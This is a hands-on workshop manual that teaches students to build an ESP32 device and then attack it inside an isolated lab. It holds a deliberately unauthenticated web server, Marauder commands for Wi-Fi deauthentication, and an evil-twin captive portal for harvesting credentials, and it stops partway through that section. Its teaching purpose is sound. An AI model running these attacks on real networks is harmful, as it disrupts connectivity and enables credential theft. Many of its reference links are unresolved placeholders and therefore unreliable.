# IoT Security Workshop — ESP32 Hands-On Lab
### Beginner → Expert | 8-Hour Practical Bootcamp for Final-Year Engineering Students

> **Environment:** Isolated, air-gapped test lab only. No internet, no production/campus network. All attacks are performed against equipment owned by the lab and dummy credentials created solely for this workshop.

---

## Table of Contents

1. [Workshop Philosophy & Learning Path](#1-workshop-philosophy--learning-path)
2. [Master Requirement List (Hardware + Software)](#2-master-requirement-list-hardware--software)
3. [Pre-Workshop Setup Checklist (Organizer — do 2–3 days before)](#3-pre-workshop-setup-checklist-organizer--do-23-days-before)
4. [Ground Rules & Ethics Briefing](#4-ground-rules--ethics-briefing)
5. [Workshop Flow Map](#5-workshop-flow-map)
6. [Full 8-Hour Schedule](#6-full-8-hour-schedule)
7. [Core Practicals P1–P9 (Beginner → Advanced)](#7-core-practicals)
8. [Bonus / Extended Practicals P10–P14 (Advanced → Expert)](#8-bonus--extended-practicals)
9. [Further Practicals P15–P22 (Zero/Low Extra Cost — Same Kit)](#9-further-practicals-p15p22)
10. [Master Troubleshooting Table](#10-master-troubleshooting-table)
11. [Wrap-Up: OWASP IoT Top 10 Mapping & Takeaways](#11-wrap-up-owasp-iot-top-10-mapping--takeaways)
12. [Post-Workshop Resources](#12-post-workshop-resources)

---

## 1. Workshop Philosophy & Learning Path

The workshop is built as a **single continuous story**: students build a small "smart device" (an ESP32 with a sensor, a web control panel, an RFID-based "door lock", and a BLE lock), and then, module by module, they **attack their own creation** — discovering exactly why each vulnerability exists and how to fix it. By the final Capstone CTF, they chain together everything they broke earlier.

Difficulty ramps automatically because each module *depends* on the working code from the previous one:

```
Beginner        → Flash firmware, read a sensor, understand GPIO
Intermediate    → Build a web-controlled device, capture its own traffic
Advanced        → Attack WiFi, MQTT, RFID and BLE layers of that same device
Expert          → Extract firmware, harden with Secure Boot, run a capstone CTF
```

No prior security knowledge is assumed. Every practical below is written so a student who has **never used a terminal before** can still complete it — every command, every wiring pin, and every expected output is spelled out.

---

## 2. Master Requirement List (Hardware + Software)

### 2.1 Hardware — per pair of students (1 kit shared by 2 students)

| # | Item | Qty/Kit | Approx. Price | Notes |
|---|---|---|---|---|
| 1 | ESP32-WROOM-32 DevKit (USB, CP2102/CH340 driver) | 1 | ₹400–550 | Core device, reusable forever |
| 2 | Breadboard (830-point) | 1 | ₹60–80 | |
| 3 | Jumper wire set (M-M, M-F) | 1 set | ₹50–70 | |
| 4 | MFRC522 RFID/NFC reader module | 1 | ₹120–180 | Comes with 1 card + 1 keyfob |
| 5 | Extra writable/"UID changeable" RFID card (optional, for cloning demo) | 1 | ₹30–50 | Only for P9 |
| 6 | DHT11 temperature/humidity sensor module | 1 | ₹60–90 | 3-pin module version (built-in pull-up) |
| 7 | LEDs (assorted colour) + 220Ω resistors | 3–4 | ₹20 | |
| 8 | Push button | 1 | ₹5 | Optional GPIO practice |
| 9 | Micro-USB/USB-C cable (data-capable, not charge-only) | 1 | included with board | Verify it's a **data** cable |

**Total per kit: ≈ ₹700–900** — fully reusable across every future batch.

### 2.2 Shared Lab Hardware (whole class, not per-kit)

| Item | Qty | Purpose |
|---|---|---|
| Cheap flashable travel router / spare home router | 2 (1 main + 1 backup) | Isolated test SSID, e.g. `IoT-Test-Lab` — **never connect this router's WAN port to the internet or campus LAN** |
| Organizer's laptop | 1 | Runs Mosquitto broker, Wireshark master capture, Marauder web flasher, evil-portal log viewer |
| Power strips | 4–5 | Charging stations |
| One "sacrificial" spare ESP32 board | 1 | For the irreversible Secure Boot/Flash Encryption demo (P12) — **never use a student's main board for this** |

### 2.3 Software (all free/open-source — install ahead of time)

| Tool | Used In | Official Source / Reference Link |
|---|---|---|
| Arduino IDE (2.x) | All coding practicals | [arduino.cc – Software](https://www.arduino.cc/en/software) |
| ESP32 Arduino Core / Board Package | All | [espressif/arduino-esp32 – GitHub](<cite>turn3search80</cite>) · [Installing Guide](<cite>turn3search82</cite>) |
| `DHT sensor library` (Adafruit) | P2 | [adafruit/DHT-sensor-library – GitHub](<cite>turn3search44</cite>) |
| `MFRC522` library (GithubCommunity/miguelbalboa) | P9 | [miguelbalboa/rfid – GitHub](<cite>turn3search56</cite>) |
| `PubSubClient` (MQTT client, Nick O'Leary) | P7, P8 | [knolleary/pubsubclient – GitHub](<cite>turn3search26</cite>) · [API Docs](<cite>turn3search31</cite>) |
| `ESP32 BLE Arduino` (bundled with core) | P10, P14 | Included in arduino-esp32 core (`BLEDevice.h`) |
| Wireshark | P4, P8 | [wireshark.org – Download](<cite>turn3search99</cite>) · [Documentation](<cite>turn3search98</cite>) |
| Python 3.x + `esptool`, `paho-mqtt`, `requests` | P5, P11, P13 | [python.org](https://www.python.org/) · [esptool Documentation](<cite>turn3search32</cite>) |
| Mosquitto MQTT broker (+ CLI tools) | P7, P8 | [mosquitto.org](<cite>turn3search38</cite>) · [Documentation](<cite>turn3search39</cite>) |
| OpenSSL | P8 | [openssl-library.org](<cite>turn3search95</cite>) · [Documentation](<cite>turn3search92</cite>) |
| ESP32Marauder firmware + flasher | P5, P6 | [justcallmekoko/ESP32Marauder – GitHub](<cite>turn3search51</cite>) · [Releases/Install Instructions](<cite>turn3search50</cite>) |
| nRF Connect for Mobile (Android/iOS) | P10 | [Nordic Semiconductor – Product Page](<cite>turn3search68</cite>) · [Google Play](<cite>turn3search69</cite>) |
| ESP-IDF (for P12 Secure Boot demo only) | P12 | [ESP-IDF Secure Boot v2 Docs](<cite>turn3search62</cite>) · [Flash Encryption Docs](<cite>turn3search63</cite>) |
| Git / GitHub Desktop (optional) | All | [github.com/git-guides](https://github.com/git-guides) |
| Scapy (Python packet crafting library) | P17 | [secdev/scapy – GitHub](<cite>turn4search162</cite>) · [scapy.net – Docs](<cite>turn4search164</cite>) |
| Aircrack-ng suite | P18 | [aircrack-ng.org – Documentation](<cite>turn4search144</cite>) |
| mitmproxy (TLS-capable intercepting proxy) | P19 | [mitmproxy.org](<cite>turn4search169</cite>) · [GitHub](<cite>turn4search168</cite>) |
| Nmap (network scanner) | P23 | [nmap.org – Official Guide](<cite>turn4search150</cite>) · [GitHub](<cite>turn4search153</cite>) |
| ArduinoOTA library (bundled with core) | P16 | [ESP-IDF OTA Docs](<cite>turn4search161</cite>) · [ArduinoOTA Tutorial Reference](<cite>turn4search157</cite>) |

**ESP32 GPIO/pinout quick reference (for wiring all practicals):** see the [ESP32 DevKit V1 pinout diagram & reference](<cite>turn3search133</cite>) — keep this open on a second screen/tab throughout the day.

---

## 3. Pre-Workshop Setup Checklist (Organizer — do 2–3 days before)

- [ ] Buy/assemble kits (Section 2.1) — **test every ESP32 board once** by flashing Blink before the workshop day.
- [ ] Configure the isolated router: SSID `IoT-Test-Lab`, password `Test@12345`, **disable internet/WAN uplink physically or via config**, set DHCP range large enough for 30+ devices (e.g., `192.168.4.2–192.168.4.200`).
- [ ] On organizer's laptop: install Mosquitto, start it in verbose mode, confirm it's reachable from a test ESP32 on the same SSID.
- [ ] Pre-download the ESP32Marauder `.bin` firmware release and the Marauder web flasher page (cache it locally if lab internet is unreliable on the day).
- [ ] Pre-generate the OpenSSL CA + server certs for the MQTT-TLS practical (P8) so class time isn't spent on cert generation — but keep the *commands* ready to show live.
- [ ] Print or share this manual with students **the night before**, and ask them to pre-install Arduino IDE, ESP32 board package, Wireshark, and Python + pip packages so class time isn't lost on installation.
- [ ] Prepare one "sacrificial" ESP32 clearly labeled, physically separated from student kits, for the Secure Boot demo (P12).
- [ ] Print/display the **Ground Rules** (Section 4) as a poster or slide, and have every student verbally acknowledge it before hardware is handed out.
- [ ] If running the extended practicals (Section 9), pre-install `scapy`, `aircrack-ng`, `mitmproxy`, and `nmap` on organizer/fast-finisher laptops (`pip install scapy mitmproxy` and `sudo apt install aircrack-ng nmap` on Linux, or via WSL on Windows).

---

## 4. Ground Rules & Ethics Briefing

Read this aloud before any hardware is switched on:

1. **Everything here happens only on `IoT-Test-Lab`.** Never point any tool (deauth, sniffing, evil portal, MQTT spoofing) at campus WiFi, eduroam, your hostel WiFi, or any network/device you do not own or have explicit written permission to test.
2. **RFID cloning is performed only on the cards issued to you for this workshop.** Cloning someone else's real access card, ID card, or transit card without consent is illegal and will not be tolerated.
3. Unauthorized access to computer systems, networks, and wireless communications is a criminal offence under the **[Information Technology Act, 2000 (India)](<cite>turn3search86</cite>) — [Sections 43](<cite>turn3search86</cite>) and [66](<cite>turn3search90</cite>)** — and under equivalent computer-misuse laws elsewhere. Section 43 makes unauthorized access, data extraction, and network disruption civilly liable for damages; Section 66 makes dishonest/fraudulent unauthorized access a criminal offence punishable with imprisonment up to 3 years and/or a fine <cite>turn3search90</cite>. Everything taught today is intended to build **defensive understanding** ("attacker mindset for defense"), not to be replicated outside this lab.
4. At the end of the day, all captured data (packet captures, cloned UIDs, harvested demo-portal credentials) must be deleted from student laptops before leaving, unless kept for a graded report with instructor approval.
5. If in doubt whether an action is in scope — **ask the instructor before running it.**

---

## 5. Workshop Flow Map



**Legend:** 🟢 Beginner &nbsp; 🟡 Intermediate &nbsp; 🟠 Advanced &nbsp; 🟣 Expert &nbsp; 🔵 Capstone

---

## 6. Full 8-Hour Schedule

This is the **core** track (P1–P9). Bonus practicals (P10–P14, Section 8) are for fast-finisher pairs, or to run as a follow-up half-day session. The **Further Practicals P15–P23** (Section 9) are recommended for a dedicated **second-day / advanced follow-up workshop**, since they need a few extra free tools installed — no new hardware purchase needed either way.

| Time | Duration | Practical | Level |
|---|---|---|---|
| 09:00–09:15 | 15m | Welcome + Ground Rules (Section 4) | — |
| 09:15–09:45 | 30m | **P1** — Environment Setup & First Flash (Blink) | 🟢 Beginner |
| 09:45–10:15 | 30m | **P2** — Reading Sensor Data (DHT11) | 🟢 Beginner |
| 10:15–10:30 | 15m | Break | — |
| 10:30–11:15 | 45m | **P3** — Insecure Web Server (HTTP device control) | 🟢🟡 Beginner→Intermediate |
| 11:15–12:00 | 45m | **P4** — Network Traffic Capture & Analysis (Wireshark) | 🟡 Intermediate |
| 12:00–12:45 | 45m | **P5** — WiFi Recon + Deauthentication (ESP32 Marauder) | 🟡 Intermediate |
| 12:45–13:15 | 30m | Lunch | — |
| 13:15–14:00 | 45m | **P6** — Evil Twin / Captive Portal Phishing Simulation | 🟠 Advanced |
| 14:00–14:45 | 45m | **P7** — MQTT Eavesdropping & Spoofing | 🟡🟠 Intermediate→Advanced |
| 14:45–15:00 | 15m | Break | — |
| 15:00–15:45 | 45m | **P9** — RFID Read & Clone (MFRC522) | 🟠 Advanced |
| 15:45–16:30 | 45m | Fast pairs: pick **any 1 bonus practical** (P8/P10/P13) &nbsp;|&nbsp; Others: guided recap + fix-the-vulnerability exercise | 🟠🟣 Advanced/Expert |
| 16:30–17:00 | 30m | **P14** — Capstone mini-CTF + OWASP IoT Top 10 wrap-up + feedback | 🔵 All levels |

---

## 7. Core Practicals

Each practical follows the same structure: **Objective → Concept → Requirements → Wiring → Step-by-Step → Code → Run & Verify → Expected Output → Troubleshooting → Cleanup → Why It Matters.**

---

### 🟢 P1 — Environment Setup & First Flash (Blink)

**Duration:** 30 min &nbsp; | &nbsp; **Level:** Beginner &nbsp; | &nbsp; **Goal:** Get every laptop talking to every ESP32.

**Concept:** Before attacking anything, you must be able to reliably compile and upload code to the ESP32. This practical validates the whole toolchain.

**Requirements:** ESP32 board, USB data cable, laptop with Arduino IDE installed.

**Step-by-Step:**
1. Open **Arduino IDE** → `File > Preferences` → in "Additional Board Manager URLs" paste:
   ```
   https://raw.githubusercontent.com/espressif/arduino-esp32/gh-pages/package_esp32_index.json
   ```
2. Go to `Tools > Board > Boards Manager`, search **esp32**, install "**esp32 by Espressif Systems**".
3. Connect the ESP32 via USB. Go to `Tools > Board` → select **ESP32 Dev Module**.
4. Go to `Tools > Port` → select the COM port that appeared (Windows: `COM3`, `COM4`…; Linux/Mac: `/dev/ttyUSB0` or `/dev/cu.usbserial-xxxx`).
   - If no port appears: install the **CP2102** or **CH340** USB-to-serial driver (search the exact chip printed on your board).
5. Paste the code below into a new sketch and click **Upload** (→ arrow icon).

**Code (`P1_Blink.ino`):**
```cpp
// P1 - First flash test: onboard LED blink
#define LED_PIN 2   // Most ESP32 DevKits have a blue LED on GPIO2

void setup() {
  pinMode(LED_PIN, OUTPUT);
  Serial.begin(115200);
  Serial.println("ESP32 booted successfully!");
}

void loop() {
  digitalWrite(LED_PIN, HIGH);
  delay(500);
  digitalWrite(LED_PIN, LOW);
  delay(500);
}
```

**Run & Verify:** After upload completes ("Hard resetting via RTS pin!" message), open `Tools > Serial Monitor`, set baud rate to **115200**. You should see `ESP32 booted successfully!` and the onboard LED should blink every 0.5s.

**Troubleshooting:**
| Problem | Fix |
|---|---|
| "A fatal error occurred: Failed to connect to ESP32" | Hold the **BOOT** button on the board while upload starts, release once "Connecting..." finishes |
| No COM port listed | Reinstall CP2102/CH340 driver; try a different USB cable (must be data-capable) |
| Garbage text in Serial Monitor | Baud rate mismatch — set to 115200 |

**Cleanup:** None needed — leave the board powered for the next practical.

**Why It Matters:** Every attack later in the day is just "code running on this same chip" — understanding the toolchain demystifies IoT devices as programmable computers, not magic boxes.

**📚 References:** [Arduino IDE — Official Software Page](https://www.arduino.cc/en/software) | [ESP32 Arduino Core — GitHub](<cite>turn3search80</cite>) | [ESP32 Arduino Core — Installing Guide](<cite>turn3search82</cite>)

---

### 🟢 P2 — Reading Sensor Data (DHT11)

**Duration:** 30 min &nbsp; | &nbsp; **Level:** Beginner &nbsp; | &nbsp; **Goal:** Turn the ESP32 into a real IoT sensor node — this becomes the "device under attack" for the rest of the day.

**Concept:** Real IoT devices constantly read physical-world data and transmit it. Understanding this data path (sensor → MCU → network) is essential before you can understand how it gets intercepted or spoofed later (P7, P8).

**Requirements:** ESP32, DHT11 module (3-pin version), 3 jumper wires, breadboard.

**Wiring:**
| DHT11 Pin | ESP32 Pin |
|---|---|
| VCC (+) | 3.3V |
| GND (−) | GND |
| OUT / DATA | GPIO 4 |

**Wiring Diagram:**


**Step-by-Step:**
1. In Arduino IDE: `Tools > Manage Libraries` → search **DHT sensor library** by Adafruit → Install (accept the "Adafruit Unified Sensor" dependency prompt). [Library reference](<cite>turn3search44</cite>)
2. Wire the module as per the table above.
3. Upload the code below.

**Code (`P2_DHT11.ino`):**
```cpp
#include "DHT.h"

#define DHTPIN 4
#define DHTTYPE DHT11
DHT dht(DHTPIN, DHTTYPE);

void setup() {
  Serial.begin(115200);
  dht.begin();
  Serial.println("DHT11 sensor node started.");
}

void loop() {
  float h = dht.readHumidity();
  float t = dht.readTemperature();

  if (isnan(h) || isnan(t)) {
    Serial.println("Failed to read from DHT sensor!");
  } else {
    Serial.printf("Temperature: %.1f C | Humidity: %.1f %%\n", t, h);
  }
  delay(2000);
}
```

**Run & Verify:** Open Serial Monitor (115200 baud). You should see a new temperature/humidity reading every 2 seconds. Breathe on the sensor or hold it — the humidity value should visibly rise.

**Troubleshooting:**
| Problem | Fix |
|---|---|
| "Failed to read from DHT sensor" repeatedly | Check DATA wire is on GPIO4 and not loose; try `delay(2000)` — DHT11 cannot be read faster than ~1Hz |
| Readings stuck at same value | Faulty module — swap for a spare |

**Cleanup:** Keep wiring intact — it's reused in P3.

**Why It Matters:** This sensor reading is exactly what gets sent unencrypted in P7 (MQTT eavesdrop) — students see the *entire lifecycle* of one data point, from physical sensor to network packet to attacker's screen.

**📚 References:** [DHT sensor library – GitHub](<cite>turn3search44</cite>) | [ESP32 pinout reference](<cite>turn3search133</cite>)

---

### 🟢🟡 P3 — Insecure Web Server (HTTP Device Control)

**Duration:** 45 min &nbsp; | &nbsp; **Level:** Beginner → Intermediate &nbsp; | &nbsp; **Goal:** Build a device with a real vulnerability — an unauthenticated web control panel — that the rest of the day will attack.

**Concept:** Most cheap IoT devices (smart plugs, cameras, garage door openers) expose a local web/HTTP API for control. If it has no authentication and no encryption, **anyone on the same network can control the device.**

**Requirements:** ESP32, isolated test router broadcasting `IoT-Test-Lab`.

**Step-by-Step:**
1. Connect your laptop's WiFi to `IoT-Test-Lab` (password: `Test@12345`, or as configured by organizer).
2. Upload the code below (replace `ssid`/`password` if organizer set different values).
3. Open Serial Monitor — note the **IP address** printed (e.g., `192.168.4.23`).
4. From your laptop's browser, visit `http://<that-ip>/` — you should see a control page with ON/OFF links.

**Code (`P3_InsecureServer.ino`):**
```cpp
#include <WiFi.h>
#include <WebServer.h>

const char* ssid     = "IoT-Test-Lab";
const char* password = "Test@12345";

WebServer server(80);
const int ledPin = 2;

void handleRoot() {
  server.send(200, "text/html",
    "<h1>Smart Device Control Panel</h1>"
    "<a href='/led/on'>Turn ON</a> | <a href='/led/off'>Turn OFF</a>");
}
void handleOn()  { digitalWrite(ledPin, HIGH); server.send(200, "text/plain", "LED is now ON");  }
void handleOff() { digitalWrite(ledPin, LOW);  server.send(200, "text/plain", "LED is now OFF"); }

void setup() {
  Serial.begin(115200);
  pinMode(ledPin, OUTPUT);

  WiFi.begin(ssid, password);
  Serial.print("Connecting to WiFi");
  while (WiFi.status() != WL_CONNECTED) {
    delay(500);
    Serial.print(".");
  }
  Serial.println("\nConnected! Device IP: " + WiFi.localIP().toString());

  server.on("/", handleRoot);
  server.on("/led/on", handleOn);
  server.on("/led/off", handleOff);
  server.begin();
  Serial.println("HTTP server started - NOTE: no authentication!");
}

void loop() {
  server.handleClient();
}
```

**Run & Verify:**
- Visiting `/led/on` and `/led/off` in the browser should toggle the onboard LED.
- **The vulnerability demo:** ask a *neighbouring pair* to visit `http://<your-ip>/led/on` from their own laptop, without you giving them anything but the IP — their browser controls *your* device. This is the core lesson: **no login, no token, no encryption.**
- Also try from a terminal: `curl http://<ip>/led/on`

**Attack Diagram — Why This Is Vulnerable:**


**Troubleshooting:**
| Problem | Fix |
|---|---|
| WiFi never connects (dots forever) | Check SSID/password spelling; ensure router is powered and in range |
| Page loads but LED doesn't toggle | Confirm `ledPin` matches your board's onboard LED GPIO (usually 2) |
| "This site can't be reached" | Double-check the IP printed in Serial Monitor; ensure laptop is on the *same* SSID |

**Cleanup:** Leave running — reused directly in P4, P5, P11, P13, P15, P17, P19, P20, P23.

**Why It Matters:** This single insecure pattern (cleartext HTTP + zero auth) is the root cause behind real-world IoT breaches (e.g., insecure smart-camera/plug botnets). Everything from P4 onward is various ways of exploiting exactly this design.

**📚 References:** [ESP32 Arduino WebServer — arduino-esp32 core docs](<cite>turn3search83</cite>) | [ESP32 pinout reference](<cite>turn3search133</cite>)

---

### 🟡 P4 — Network Traffic Capture & Analysis (Wireshark)

**Duration:** 45 min &nbsp; | &nbsp; **Level:** Intermediate &nbsp; | &nbsp; **Goal:** *See* the cleartext HTTP request with your own eyes — turn theory into proof.

**Concept:** "No encryption" is abstract until you watch someone's device-control command travel across the air in plain, readable text.

**Requirements:** Laptop connected to `IoT-Test-Lab`, Wireshark installed, P3's server still running.

**Step-by-Step:**
1. Open **Wireshark** → select the WiFi interface connected to `IoT-Test-Lab` → click the blue shark-fin "Start Capture" button.
2. In the filter bar, type: `http` and press Enter (this hides unrelated noise).
3. In your browser, visit `http://<esp32-ip>/led/on` again.
4. In Wireshark, you should see a new packet appear — click it.
5. In the bottom pane, expand **Hypertext Transfer Protocol** — you can read the full `GET /led/on HTTP/1.1` request in plain text, exactly as the ESP32 received it.
6. Right-click the packet → `Follow > HTTP Stream` to see the full request/response conversation as readable text.

**Expected Output:** A readable HTTP stream showing:
```
GET /led/on HTTP/1.1
Host: 192.168.4.23
...
HTTP/1.1 200 OK
Content-Type: text/plain
LED is now ON
```

**Troubleshooting:**
| Problem | Fix |
|---|---|
| No packets showing | Confirm correct WiFi interface selected (not Ethernet); confirm filter is exactly `http` (lowercase) |
| Too much noise, hard to find the packet | Add IP filter: `ip.addr == <esp32-ip>` |

**Cleanup:** Stop capture (red square icon) when done; save capture as `p4_capture.pcapng` if you want to keep it for a report, otherwise close without saving.

**Why It Matters:** This is the fundamental skill of a network defender **and** an attacker — packet-level visibility. Everything in P5–P8 builds on being comfortable reading captured traffic.

**📚 References:** [Wireshark – Official Download](<cite>turn3search99</cite>) | [Wireshark User's Guide & Documentation](<cite>turn3search98</cite>)

---

### 🟡 P5 — WiFi Recon + Deauthentication Attack (ESP32 Marauder)

**Duration:** 45 min &nbsp; | &nbsp; **Level:** Intermediate &nbsp; | &nbsp; **Goal:** Turn a *second* spare ESP32 into a WiFi security-testing tool, scan nearby access points, and demonstrate a deauthentication attack against the isolated test AP only.

**Concept:** WiFi management frames (like deauth) are, by the original 802.11 design, **unauthenticated** — any device can forge them. This is why WPA3/Protected Management Frames (PMF) exist. ESP32Marauder is an open-source firmware that turns a $5 chip into a full WiFi/BT recon and testing tool.

**Requirements:** A **second** ESP32 (kept separate from the "victim" board running P3's server), USB cable, laptop with `esptool` installed (`pip install esptool`).

**Step-by-Step — Flashing Marauder:**
1. Download the latest `esp32_marauder_vX.X.X.bin` from the ESP32Marauder GitHub releases page (pre-downloaded by organizer).
2. Connect the second ESP32, note its COM port.
3. Erase and flash:
   ```bash
   esptool.py --chip esp32 --port COM5 erase_flash
   esptool.py --chip esp32 --port COM5 --baud 921600 write_flash -z 0x1000 esp32_marauder.bin
   ```
   (Replace `COM5` with your port; on Linux/Mac use `/dev/ttyUSB0` style path.)
4. Open Serial Monitor at **115200 baud** — Marauder boots into its CLI menu.

**Step-by-Step — Using Marauder (via Serial CLI):**
```
scanap              # scan and list all nearby WiFi access points with signal strength
list -a             # show the scanned AP list with index numbers
select -a 2         # select AP at index 2 as the target (choose YOUR IoT-Test-Lab AP only)
attack -t deauth     # send deauthentication frames to the selected target only
stop                 # stop the running attack
```

**Run & Verify:**
- Have a laptop/phone connected to `IoT-Test-Lab` before running `attack -t deauth`.
- Watch that device — it should visibly disconnect from the WiFi and attempt to reconnect.
- Stop the attack (`stop`) and confirm the device reconnects normally.

**Attack Flow Diagram:**


**Troubleshooting:**
| Problem | Fix |
|---|---|
| `scanap` shows nothing | Move closer to the router; confirm the router is broadcasting (not hidden SSID) |
| Flash fails / bootloop | Hold **BOOT** button during `write_flash`; try lowering `--baud` to `115200` |
| Deauth doesn't disconnect anything | Confirm you selected the correct AP index with `select -a`, not a neighbouring real network |

**⚠️ Strict scope reminder:** `select -a` **must** target only `IoT-Test-Lab`. Running deauth against any other visible network (a neighbour's home WiFi, another lab, campus WiFi) is out of scope and illegal outside this exercise.

**Cleanup:** `stop` the attack; you may re-flash this board back to a normal Arduino sketch afterward if needed for other classes.

**Why It Matters:** This demonstrates why unauthenticated management frames are a fundamental WiFi weakness, and directly motivates **WPA3/PMF** and "AP isolation" as real countermeasures.

**📚 References:** [ESP32Marauder – GitHub Repository](<cite>turn3search51</cite>) | [Install/Update Instructions & Releases](<cite>turn3search50</cite>) | [esptool Documentation](<cite>turn3search32</cite>)

---

### 🟠 P6 — Evil Twin / Captive Portal Phishing Simulation

**Duration:** 45 min &nbsp; | &nbsp; **Level:** Advanced &nbsp; | &nbsp; **Goal:** Show how a fake WiFi access point with a fake login page harvests credentials from unsuspecting victims.

**Concept:** An "Evil Twin" is a rogue access point that clones a legitimate network's name (SSID). Combined with a **captive portal** (a fake "Please log in to continue" web page), it's one of the most effective real-world phishing techniques — no malware needed, just a convincing fake WiFi network.

**Requirements:** The Marauder-flashed ESP32 from P5, a **test phone or spare laptop** to act as the "victim" (never use a real personal account).

**Step-by-Step:**
1. In the Marauder Serial CLI, list nearby APs and select `IoT-Test-Lab` as before:
   ```
   scanap
   list -a
   select -a <index-of-IoT-Test-Lab>
   ```
2. Start the built-in Evil Portal (clones the selected AP's SSID and serves a fake captive login page):
   ```
   portal
   ```
3. On the **victim** test phone, open WiFi settings — you'll see a second network with the **same name** `IoT-Test-Lab` (the rogue clone) alongside the real one, or Marauder may disable/overpower the real one temporarily via deauth so the victim reconnects to the clone.
4. Connect the victim device to the rogue AP. A captive portal / fake login page should automatically pop up (or open `http://neverssl.com` manually to trigger it).
